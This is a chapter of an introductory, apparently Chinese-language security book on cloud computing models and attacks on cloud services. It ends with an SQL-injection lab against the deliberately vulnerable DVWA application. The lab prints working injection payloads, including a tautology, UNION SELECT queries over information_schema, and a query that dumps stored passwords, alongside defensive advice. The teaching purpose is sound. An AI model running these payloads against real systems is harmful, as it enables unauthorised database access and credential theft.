









# 7

云中的攻击


你应该听说过*云计算*这个词，可能是在作为技术产品的功能或广告中提到过。你可能使用过云存储，将照片或文档保存在互联网上。那么你可以理解，为什么那些想要访问这些文件的黑帽攻击者会攻击你的云存储。

但是这些简要的描述并没有解释云计算的真正含义。在本章中，我们将讨论云计算如何工作以及云计算服务的基本设置。我们将研究攻击者如何针对云计算并窃取其中托管的信息或服务。然后，我们将探讨你可以做些什么来更好地保护你的云账户，并在选择要使用的服务时更加了解。通过本章的练习，你将使用一些对手用来执行攻击的技术，叫做*SQL 注入*；通过这种方式，你将更好地理解它们是如何工作的。在本章结束时，你将了解云计算的运作方式以及如何保护你的云存储免受攻击。

## 云计算如何工作

*云计算*这个词可能会令人困惑，因为它在许多不同的上下文中使用，尤其是在用来营销产品时。从最基本的定义来看，云计算就是*使用别人的计算机做某事*。一开始，这个定义可能显得模糊不清，但这也正是关键所在；云计算涵盖了一系列服务和系统，其中一些你可能甚至不知道。

你可能熟悉的一个云服务例子是网站托管。如前所述，当你访问一个网站时，你实际上是向一个托管该网页的服务器发出请求。理论上，这意味着任何想要拥有网站的人都必须拥有自己的 Web 服务器，并自行设置和维护。但在现实中，很多公司提供网站托管服务，让你可以在互联网上拥有自己的网站，而不必拥有 Web 服务器。其中一些服务，如 Wix、Google 和 Squarespace，提供额外的云服务，如数据库存储、向其他网站投放营销广告，甚至是网站建设工具。

云服务的一个主要优势是你不需要维护使用某些硬件或软件所需的设备和系统。如果我想要托管一个销售我在午餐时随便在餐巾纸上涂鸦的 T 恤设计的网站，我会很难筹集到为现代网站有效运营所需的所有设备资金，更别提如何设置和运行它的技术知识了。相反，云服务允许我使用它的设备和专业知识。这减少了服务的整体成本，而这些成本会在服务的用户之间分摊。

使用云服务的一个缺点是你对设备的操作控制有限。以网站服务为例，该服务并不让你控制公司使用什么类型的网络服务器。你对服务提供的功能也有很大限制。如果它不提供某项服务——例如，你的网站没有在线商店——那么让服务提供商增加这个功能可能会很困难。你也受限于服务合同。例如，你可能有一个合同，只允许每天最多 100 个访问者访问你的网站。如果超过 100 个访问者浏览你的网站，你要么支付更高的费用，要么这些额外的访问者可能无法访问页面。

随着互联网的发展和网络连接设备数量的增加，云服务的提供也在不断增加。了解每种服务如何工作可能会让人感到困惑。对云系统进行分类的一种方式是描述它们提供的服务类型。通常，我们会将这些服务标记为服务名称后跟 *as a service*。例如，你可能会遇到 *AaaS*，它可能代表 *应用程序即服务* 或 *分析即服务*。正如你所看到的，云计算涵盖了如此多的功能和特性，甚至缩写都有多种定义。实际上，人们有时使用 *XaaS* 来表示 *任何即服务*，这显示了云服务的广泛性。

为了简单起见，让我们看一下通常与云相关的三种主要服务。

### 软件即服务

*软件即服务（SaaS）* 是托管在他人系统上的软件，用户可以通过网络连接访问，通常是通过网页登录门户进行登录。

SaaS 的一个很好的例子是微软 Office 365。这个产品让你通过网站访问 Microsoft Office 应用程序，如 Word 或 PowerPoint，而不需要将这些应用程序安装到你的计算机上。

SaaS 有几个优点：它可以让你访问最新的软件更新，并且可以在许多不同的系统上使用该软件。此外，SaaS 通常与其他云服务提供集成。例如，Office 365 与 OneDrive 集成，OneDrive 是微软的云存储服务。

### 平台即服务

*平台即服务（PaaS）* 包括运行服务所需的所有基础设施、工具、硬件和软件。网站托管平台就是 PaaS 的一个例子。另一个例子是电子邮件服务，如 Gmail 或 Outlook。在这种情况下，平台是电子邮件系统，它需要服务器、网站门户访问、应用程序和协议等来运行。就像 SaaS 一样，只不过规模更大，你可以访问整个平台，而无需管理运行所需的系统。

PaaS 不像 SaaS 那样给你那么多自由，因为你基本上受到云提供商运行的服务的限制。你对使用什么类型的硬件或软件作为平台的一部分选择有限。权衡是，你将获得更容易管理的选项，并且比自己运行应用程序或硬件时拥有更多强大的功能。

### 基础设施即服务

运行软件甚至平台适合小型项目，但如果你需要大量资源来同时运行多个不同类型的平台怎么办？这时*基础设施即服务（IaaS）*就派上用场了。IaaS 提供所有必要的资源，用于维护你或你的公司为客户提供的服务。这个描述可能看起来有些模糊，因为 IaaS 通常涉及大规模的运营，其中多个组件协同工作。让我们来看一个传统 IaaS 设置的例子。

假设你创建了一款包含多人功能的视频游戏。这个功能允许玩家加入同一个游戏，共同建造堡垒防御攻击的怪物。你是一个小型独立开发者，所以你主要专注于游戏的开发和艺术设计。然而，你知道你需要大量系统来运行多人组件，因此你雇佣了一家 IaaS 公司来提供必要的系统。

IaaS 公司不仅会为你提供托管游戏所需的服务器，还会提供玩家在游戏时连接服务器所需的设备。此外，IaaS 还会提供存储，用于保存玩家在不玩游戏时的数据，以便他们能够保留游戏物品。如果玩家在访问游戏时遇到问题，或者服务器崩溃，IaaS 还可能提供帮助台工作人员。

IaaS 提供大量设备和专业技术，旨在管理公司内部的核心服务。另一种流行的 IaaS 形式，称为*托管服务提供商（MSP）*，为公司提供大部分技术设备，如桌面电脑、服务器和路由器，并且提供技术人员和帮助台工作人员来进行管理。

IaaS 在可用系统的种类以及你对这些系统的控制权方面提供的灵活性最少。在多人游戏的例子中，作为游戏的拥有者，你不一定能调整与系统运行相关的操作，比如服务器打补丁的频率、使用的安全类型，或者当系统崩溃或故障时如何恢复。签署 IaaS 合同时要特别注意，因为 IaaS 将是你工作方式中的一个重要组成部分。

图 7-1 展示了在不同云服务层级提供的一些服务示例。



图 7-1：按云层级划分的应用示例

### 安全即服务

云计算中的另一个领域是*安全即服务（SECaaS）*，它提供网络安全服务，保护客户免受攻击。安全即服务可以包括多个不同的组件。有些服务范围有限，例如漏洞扫描服务，而其他服务则是全面的安全服务，提供在发生攻击时随时待命的人员支持。一个例子是*托管检测与响应（MDR）*，它试图实时检测攻击并作出响应，以防止进一步的损害。该服务还可以包括持续的安全工作，如渗透测试或取证。

## 攻击云计算

许多在前几章中讨论的攻击方法对云基础设施仍然有效。例如，第三章讨论的社会工程学攻击和第五章讨论的身份验证攻击，对云服务来说是非常强大的攻击手段。由于许多云服务提供网站，客户可以通过这些网站与服务进行互动（例如 Gmail 帐户或 Office 365 应用程序），社会工程学攻击可以帮助黑客获取帐户信息并以用户身份登录。由于云应用程序的可访问性极广，因此检查诸如登录时间或登录尝试位置等典型的恶意活动指示器可能不起作用，从而使这些恶意登录更加难以被检测。

另一种针对云计算的攻击是中间人攻击，这在第六章中有介绍。如果攻击者能够拦截客户端与云服务提供商之间的网络流量，他们可以操控流量来访问服务或窃取正在传输的数据。攻击者可以通过设置一个看起来像云服务登录页面的假页面来创建这种中间人攻击场景。

恶意软件也是一种有效的攻击手段。许多攻击者通过恶意软件攻击云服务，因为它们可以利用大量的资源。例如，非法挖掘加密货币（如比特币）的*加密挖矿恶意软件*就是一个例子。加密挖矿需要大量的 CPU 资源和电力，因此攻击者有时会试图利用云服务的资源来挖掘加密货币。这类攻击很难被发现，因为许多加密挖矿程序伪装成在云环境中运行的合法应用程序。

大多数云攻击的目标是获得云服务提供商运行的基础设施的访问权限。实现这一点的一种方式是寻找云服务提供的客户端系统中的漏洞，然后利用这些漏洞访问私人内部资源。我们通常将这些漏洞称为*Web 应用攻击*；接下来我们将仔细了解这些攻击。

### Web 应用攻击

许多云服务具有客户端接口，您可以通过网站或其他在线应用程序访问此接口。此接口允许您与您付费的功能进行互动，同时也为攻击者提供了一个理想的攻击目标。由于应用程序必须保持可供客户端使用，因此阻止攻击者访问它可能是很困难的。有些网络应用程序对公众开放，意味着任何人、任何时间都可以访问它们。

此外，网络应用程序通常与内部网络中的资源连接。这使得外部用户能够访问通常对外部不可用的数据，如用户个人资料或个人信息。它还为攻击者提供了一个方式，可以通过这些外部云服务访问内部网络，并窃取这些数据。

正如第六章所讨论的，私有网络通常将来自外部网络的连接发送到 DMZ（隔离区）。这允许用户访问云服务和其他资源，而无需访问内部网络。当用户需要访问存储在内部网络上的数据时，DMZ 中的云服务代表用户访问这些资源。

然而，攻击者仍有许多方法可以通过外部云服务攻击内部网络。这些攻击的主要目标之一是获得*任意代码执行*的能力，即在系统上执行任何命令或代码的能力。通常，只有具有最高权限的帐户才能执行此操作，但通常也有方法绕过现有的限制。一旦黑帽攻击者能够运行自己的代码，他们就可以通过安装后门或创建账户的方式完全渗透系统。

让我们看一些最常见的网络应用程序攻击实例，来确定此类攻击的一般结构及其工作原理。

#### 缓冲区溢出

*缓冲区溢出* *攻击*尝试填满计算机的内存，从而使系统崩溃或攻击者获得对系统通常未经授权部分的访问权限。要理解这种攻击是如何工作的，首先需要了解内存分配是如何运作的。系统使用内存来存储所有信息。通常，系统只有一定量的内存，并将其分配给各个功能模块。像云服务所使用的应用程序会分配一固定数量的内存块。未使用的内存称为*缓冲区*。

当攻击者发起缓冲区溢出攻击时，他们故意试图溢出分配给应用程序的内存缓冲区。例如，如果一个应用程序分配了五个内存块，攻击者可能会尝试将六个数据块注入其中，超出已分配的空间。图 7-2 展示了这一过程；单词*excessive*的大小超过了 A 部分分配的空间。



图 7-2：缓冲区溢出示例（图片修改自原图，原图受[知识共享署名-相同方式共享 2.0 通用版](https://creativecommons.org/licenses/by-sa/2.0/)许可保护）

一旦缓冲区被突破，可能会发生几种不同的事件。一些系统会因为无法存储提供给它们的所有数据而导致错误并崩溃。另一种选择是数据溢出到下一个内存块。

通常，攻击者会在提交给应用程序的数据的末尾添加命令。如果内存溢出并覆盖分配给管理功能的内存块，系统命令可能会使用高级别权限执行。这可能导致攻击者在系统上执行他们想要的任何代码。

管理缓冲区溢出的最佳方法是使用一种名为 *输入验证* 的功能。当用户向系统发送数据以存储到内存中时，输入验证代码首先检查数据是否适合，并且以正确的格式到达。如果输入不可接受，系统会在完全提交到内存之前丢弃它。这可以在缓冲区溢出攻击开始之前将其阻止。开发人员还可以使用另一种技术，称为 *模糊测试*。模糊测试会生成不同长度的随机输入，并自动将其应用到网站或云应用程序的输入字段中。这使得云服务可以确保输入验证到位，并且不会发生缓冲区溢出等漏洞。

#### SQL 注入

*结构化查询语言（SQL）* 是一种用于访问或操作存储在数据库中的数据的编程语言。Web 应用程序有时使用 SQL 数据库存储网站用户可以访问的信息。例如，一个具有登录功能的网站可能会使用 SQL 数据库存储用户的账户信息，包括他们的密码。当用户登录网站时，Web 应用程序会创建一个自定义 SQL 查询，并将其发送到数据库以检索用户的信息。图 7-3 展示了这一过程是如何工作的。



图 7-3：正常 SQL 登录示例

有时，使用 SQL 查询访问数据库意味着用户可以利用密码输入字段将他们选择的任何值直接发送到数据库进行处理。因此，攻击者可能会将用户名和密码之外的文本字符串注入到数据库中——比如他们自己的 SQL 查询，这会允许他们在数据库上执行命令。结果，他们可能会创建具有管理员权限的新账户，修改现有账户的密码，让他们使用新密码登录这些账户，并挖掘数据库中的个人信息，如信用卡号。黑帽黑客甚至可以删除数据库！图 7-4 展示了 SQL 注入的一个示例。



图 7-4：SQL 攻击示例

上半部分展示了如何通过用户名和密码创建正常的 SQL 查询。下半部分展示了用于确定服务是否容易受到 SQL 注入攻击的标准查询。该查询基本上告诉数据库查找任何用户并返回该信息（密码字段通过 */ 语法被置为 null），从而向攻击者指示该服务易受这种攻击类型的影响。

话虽如此，你在现代系统中很少会看到这种攻击成功，因为大多数服务已经识别并缓解了这种攻击。像缓冲区溢出一样，击败这种攻击的最佳方法是使用输入验证，删除发送到数据库之前的恶意 SQL 查询。不过，它仍然是一个很好的例子，展示了对手如何利用后端基础设施攻击云服务。

#### XML 注入

*可扩展标记语言 (XML)* 是一组用于创建动态文档的规则，web 服务器可以读取这些文档来填充网页。例如，假设你在 sparklekitten.net 上，正在购物，挑选那些酷炫的 Sparkle Kitten 产品。当你点击一个商品时，web 服务器可以向数据库发送一个包含价格信息的 XML 请求。数据库使用 XML 发送该信息，web 服务器随后将其填充到网页中，给你提供最新的产品价格。XML 很有用，因为无论你使用什么类型的 web 服务器或数据库，只要它们都支持 XML，它们就可以相互通信。

对手利用 XML 的灵活性来为自己谋取利益。在 XML 注入攻击中，黑客创建自己的 XML 文档并将其发送到 web 服务器。web 服务器接受该 XML 文档，并使用攻击者的恶意输入更新网站。XML 注入攻击的表现可能因文档的编写方式而异。例如，使用 XML 注入有可能创建一个拥有完整管理员权限的用户。

攻击者通常会使用其他漏洞来让 web 服务器验证 XML 文档。与 SQL 注入类似，他们可能会利用网页中的一个字段，将 XML 信息注入到应用程序的后端。这意味着你也可以使用输入验证来防御这些攻击。如果系统能够识别 XML 信息，就可以将其从输入中移除，或者直接拒绝该输入。

## 防御云服务

云服务比你拥有和运行的系统可能更安全。原因在于云服务提供商可以在安全性上花费比小型公司更多的资金。此外，由于云服务提供商为多个付费客户提供服务，他们能够负担得起维护多个安全服务，包括硬件、软件和人员，而无需让任何一个客户承担这些服务的全部费用。对于云服务提供商来说，确保安全性也是其最大利益，因为其整个业务是建立在确保客户能够安全、稳定地使用其服务的基础上的。

然而，你不能总是依赖云服务提供商提供所需的安全性。在注册云服务之前，仔细检查其服务条款，以确定云服务提供商将保持的安全级别。这些条款还应该告知你作为客户端的责任。许多云服务提供商会保留合规报告，例如 SOC II 报告，你可以请求查看。这些报告不仅展示他们所具备的安全功能，还提供了这些功能有效运行的证明。

云安全的一个薄弱点是公开可访问的客户端门户。到目前为止讨论的许多攻击都始于客户端用来与云服务交互的网页。管理员必须经常测试这些门户，以确保它们的安全性。实现这一点的一个方法是使用模糊测试，正如在第 130 页的“缓冲区溢出”中所讨论的那样。你还应该将云应用和连接添加到你为网络上的系统进行的监控中。例如，许多云服务允许你与第三方应用进行集成，比如使用 Facebook 登录来登录你的账户，或者与系统进行集成，这些系统你可以控制在你的内部网络中，比如客户数据库。监控你的云服务对其他应用、系统或账户的访问，可以帮助确保黑客没有控制你的云账户，或利用云服务访问你的内部系统。

对于云服务用户来说，接受适当的培训同样重要。这种准备有助于确保用户不会成为社会工程攻击的受害者。使用多因素认证也可以保护云服务。许多攻击者会放弃，转而寻找更容易的受害者，而不是花时间突破多因素认证。

## 练习：对 Damn Vulnerable Web Application 进行 SQL 注入攻击

为了更好地理解 SQL 注入的原理，让我们进行一次攻击。我们将以*Damn Vulnerable Web Application*（*DVWA*）为目标，这是一个有意设置防御漏洞的应用，旨在测试各种弱点。

在您加载 DVWA 之前，您需要一个运行平台。由于 DVWA 存在漏洞，最好将其作为虚拟机或容器运行。为了完成本练习，我们将使用 Docker 服务。Docker 是一个运行容器的平台，容器本质上是设计成可以在任何地方运行的软件包。

### 安装 Docker 和 DVWA

若要注册一个免费帐户并安装 Docker，请访问[`www.docker.com/`](https://www.docker.com/)，如图 7-5 所示。点击右上角的**开始使用**按钮，按照流程下载并安装 Docker Desktop 应用程序。标准安装即可满足我们的需求。

安装好 Docker 后，您可以选择通过教程进行学习，或者直接开始使用。



图 7-5：Docker 首页

接下来，您需要使用 Docker 下载并启动 DVWA。为此，请通过进入开始菜单并在 Windows 上输入**命令提示符**，或在 macOS 上打开终端应用程序来访问命令行。然后运行以下命令：

```
**docker run -–rm -it -p 80:80 vulnerables/web-dvwa**
```

此命令应创建包含 DVWA 的容器。命令运行完成后，输出应如下所示：

```
Unable to find image 'vulnerables/web-dvwa:latest' locallyLatest: Pulling from vulnerables/web-dvwa
3e17c6eae66c: Pull complete
0c57df616dbf: Pull complete
eb05d18be401: Pull complete
e9968e5981d2: Pull complete
2cd72dba8257: Pull complete
6cff5f35147f: Pull complete
098cffd43466: Pull complete
b3d64a33242d: Pull complete
Digest: sha256: dae203fe11646a86937bf04db0079adef295f426da68a92b440e3b181f337daa7
Status: Download newer image for vulnerables/web-dvwa:latest
[+] Starting mysql…
[ ok ] Starting Maria DB database server: mysqld.
[+] Starting apache
[...] Starting Apache httpd web server: apache2AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2\. Set the 'ServerName' directive globally to suppress this message. 
ok
==> /var/log/apache2/access.log <==
==> /var/log/apache2/error.log <== 
```

在成功安装 DVWA 后，您可以打开该应用程序。点击任务栏中的 Docker 图标，然后点击**仪表板**，如图 7-6 所示。



图 7-6：从 Docker 菜单中选择仪表板

您应该能看到 DVWA 列为一个可以选择的容器。当您高亮该容器时，它应显示多个图标，提供不同的选项。点击第一个**在浏览器中打开**，如图 7-7 所示，以启动 DVWA。



图 7-7：选择“在浏览器中打开”以打开 DVWA 容器

一个浏览器窗口将打开，进入 DVWA 的登录页面。使用以下默认凭据登录：

```
Username: admin 
Password: password 
```

出现如图 7-8 所示的屏幕。在这里，您可以创建一个数据库，以便在 DVWA 场景中使用。点击底部的**创建/重置数据库**按钮开始操作。操作后，您需要重新登录。



图 7-8：为 DVWA 创建数据库

现在您已经完成了 DVWA 的设置，我们可以进行一些 SQL 注入实验了。

### 列出用户

安装完成后，页面左侧应自动列出各种攻击。点击**SQL 注入**，进入一个包含用户 ID 字段和提交按钮的页面，如图 7-9 所示。



图 7-9：SQL 注入字段

为了开始注入，让我们尝试一个简单的操作。请输入**1**在字段中并按回车键。此时应弹出一个红色错误文本，显示以下内容：

```
ID: 1
First name: admin
Surname: admin
```

这个错误已经表明应用程序存在漏洞：它没有显示*用户未找到*或类似的消息，而是显示了 ID 为*1*的用户的名字和姓氏。让我们看看能否找到更多用户。输入以下内容到用户 ID 字段并按 ENTER 键：

```
**sparklekitten' or '1'='1**
```

让我们来分解这个输入。SQL 语言将每个查询评估为真或假。`or` 运算符会在其分隔的条件之一为真时显示记录。因为 `sparklekitten` 不会出现在用户 ID 字段中，这个条件将为假，但因为 1 永远等于 1，这个条件将为真。按照 SQL 的逻辑，这个输入实际上会返回数据库中所有的用户 ID 记录，因为 1=1 为真，而 `or` 运算符指的是任一条件；SQL 查询认为每个条目都符合查询要求，结果会返回每个用户名。输入这个内容后，你应该会看到如下输出：

```
ID: sparklekitten' or '1'='1
First name: admin
Surname: admin
ID: sparklekitten' or '1'='1
First name: Gordon
Surname: Brown
ID: sparklekitten' or '1'='1
First name: HackSurname: Me
ID: sparklekitten' or '1'='1
First name: Pablo
Surname: Picasso
ID: sparklekitten' or '1'='1
First name: Bob
Surname: Smith
```

如你所见，数据库中有五个用户。

### 查找数据库表名

现在你知道从用户 ID 输入字段运行 SQL 命令是有效的，你可以使用 SQL 查询来查找更多数据库信息。例如，找出数据库中所有表的名称。*表*就像 Excel 表格一样，它以列和行的形式存储数据。如果你找到了一个表的名称，你可以针对该表进行特定的查询。

要查找表名，请使用以下查询：

```
**sparklekitten' and 1=0 union select null, table_name from information_schema.tables #**
```

这个命令允许我们运行一个 SQL 查询，要求从 `information_schema` 表中选择两个结果：`null` 和 `table_name`。`null` 值不会返回任何内容。我们使用 `null` 是因为我们知道有两个字段（名字和姓氏），因此必须返回两个结果。真正的重点是表名；这个查询会找到 `information_schema` 表中的表名。在 SQL 数据库中，*信息架构*表保存了数据库中所有表的名称，因此我们实际上是要求数据库返回每个表的列表。我们应该会得到一个很长的表名列表，其中大多数是为运行 SQL 数据库而创建的标准表。在以下输出中，只有顶部的两个表名对我们很重要：`guestbook` 和 `users`。

```
ID: sparklekitten' and 1=0 union select null, table_name from information_schema.tables #
First name: 
Surname: guestbook
ID: sparklekitten' and 1=0 union select null, table_name from information_schema.tables #
First name: 
Surname: users
ID: sparklekitten' and 1=0 union select null, table_name from information_schema.tables #
First name: 
Surname: ALL_PLUGINS
Output abridged 
```

因为我们试图查找有关用户的信息，所以我们将重点关注这部分。现在我们知道了用户表的名称，我们可以查询它以获取更多信息。尝试以下查询，看看在继续练习之前是否能找到任何感兴趣的内容：

```
**sparklekitten' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #**
```

这行请求获取 `users` 表中所有列的名称。`concat` 命令要求从名为 `users` 的任何表中获取表名和列名。`0x0a` 语法表示换行，因此表名和列名会分开显示，便于阅读。

当你输入这个查询时，输出应该包含几行，显示表中的列名称。

### 查找密码

在本次练习中，有一列特别值得关注：

```
ID: %' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
First name: 
Surname: users
password
```

这个输出表明存在一个 `password` 列。这看起来很有希望！使用以下查询查看数据库在该字段中存储了什么：

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

这个查询请求的是 `first_name` 列、`last_name` 列、`user` 列和 `password` 列，来自 `users` 表。输出应显示所有这些信息，给我们提供这个数据库管理员账户的密码。恭喜！你刚刚通过 SQL 注入获得了数据库访问权限。

这个场景设计得容易被利用，但在其他网站上执行 SQL 注入就没有这么简单了。不过，你现在应该能认识到，简单的编码错误可能会导致严重的安全漏洞。通过构造标准的 SQL 查询并学习数据库中表的名称，你发现了很多有用的信息，包括密码。一旦获得了密码，你很可能就能访问数据库。

DVWA 中还有许多其他的漏洞。我强烈建议你尝试使用它，并阅读它提供的关于各种攻击的资源。通过这样做，你将学到很多关于黑帽攻击者如何操作的知识。

## 结论

在涉及云服务时，记住的主要因素是，你正在使用一个在某种程度上由其他人或团体控制和拥有的服务。这使得安全性变得复杂，因为你可能没有太多控制权来确保服务的安全或维护。这也意味着，通常情况下，你必须通过互联网访问云服务。这使得云计算容易受到许多危险的攻击，例如缓冲区溢出或 SQL 注入等 Web 应用攻击。

为了维护系统的安全性，你需要在使用云服务之前进行调研，确保它注重安全并遵循最佳实践，比如本书中之前讨论过的那些。你还需要仔细监控云服务如何与你的系统集成，以验证黑帽攻击者是否利用云服务来访问你的内部系统。采取这些预防措施将大大有助于确保你可以安心使用云服务。
